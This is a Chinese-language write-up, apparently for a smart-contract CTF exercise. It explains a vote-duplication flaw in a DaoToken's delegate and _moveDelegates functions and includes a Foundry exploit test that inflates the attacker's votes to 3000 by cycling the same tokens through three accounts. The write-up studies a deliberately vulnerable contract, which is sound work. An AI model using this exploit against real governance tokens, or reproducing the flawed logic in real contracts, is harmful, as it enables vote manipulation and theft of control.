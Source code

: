 # DaoToken 合約問題

任一 user 使用 delegate function 時，delegate function 會間接調用\_delegates 查出其映射的地址，並根據 user 錢包裡的 Token 數目生成 vote，再調用\_moveDelegates function；此時只要 user 的地址映射是 address(0)，便會導致\_moveDelegates function 只執行下半部的 if 指令，使 to 能得到 vote。

```
function delegate(address _addr) external {
    return _delegate(msg.sender, _addr);
}

function _delegate(address _addr, address delegatee) internal {
    address currentDelegate = _delegates[_addr];
    uint256 _addrBalance = balanceOf(_addr);
    _delegates[_addr] = delegatee;
    _moveDelegates(currentDelegate, delegatee, _addrBalance);
}
```

## 漏洞 1： \_delegates

user 使用 delegate function 時，會間接調用\_delegates。

```
mapping(address => address) internal _delegates;
```

mapping address 預設的對應值是 address(0)，意即 alice, bob, carol, hacker 的地址的預設映射值皆是 address(0)。

## 漏洞 2： \_moveDelegates function

delegate function 也會間接調用\_moveDelegates function。

```
function _moveDelegates(address from, address to, uint256 amount) internal {
    if (from != to && amount > 0) {
        if (from != address(0)) {
            uint32 fromNum = numCheckpoints[from];
            uint256 fromOld = fromNum > 0 ? checkpoints[from][fromNum - 1].votes : 0;
            uint256 fromNew = fromOld - amount;
            _writeCheckpoint(from, fromNum, fromOld, fromNew);
        }

        if (to != address(0)) {
            uint32 toNum = numCheckpoints[to];
            uint256 toOld = toNum > 0 ? checkpoints[to][toNum - 1].votes : 0;
            uint256 toNew = toOld + amount;
            _writeCheckpoint(to, toNum, toOld, toNew);
        }
    }
}
```

調用\_moveDelegates function 時，要是 from = address(0)便不會執行上半部的 if 指令；若此時 to != address(0)，就會執行下半部的 if 指令，結果會使 to 得到 vote。

## 結合上述漏洞的攻擊流程

由於 hacker 有 Alice, Bob, Carol 三人的 private key，Alice 有 1000 顆 Token：

1. 用 Alice 的身份調用 delegate function，delegate function 會生成 1000 張 vote 並將 vote 轉移到 hacker 身上。
2. 將 Alice 的 Token 使用 transfer 轉移給 Bob。
3. 用 Bob 的身份執行步驟 1，再將 Token 轉移給 Carol。
4. 用 Carol 的身份執行步驟 1，再將 Token 轉移給 hacker。

最後 hacker 會得到 3000 張 vote 與 1000 顆 Token。

```
function testExploit() public {
    vm.startPrank(alice);

    // write your soluiton here
    daoToken.delegate(hacker);
    daoToken.transfer(bob, 1000);
    vm.startPrank(bob);
    daoToken.delegate(hacker);
    daoToken.transfer(carol, 1000);
    vm.startPrank(carol);
    daoToken.delegate(hacker);
    daoToken.transfer(hacker, 1000);

    vm.stopPrank();

    uint256 hacker_vote = daoToken.getVotes(hacker);
    console.log("Vote Count of Hacker before attack: %s ", hacker_vote);

    uint256 hacker_balance = daoToken.balanceOf(hacker);
    console.log("Hacker's daoToken after the attack: %s: ", hacker_balance);

    assertEq(hacker_vote, 3000);
    assertEq(hacker_balance, 1000);
}
```
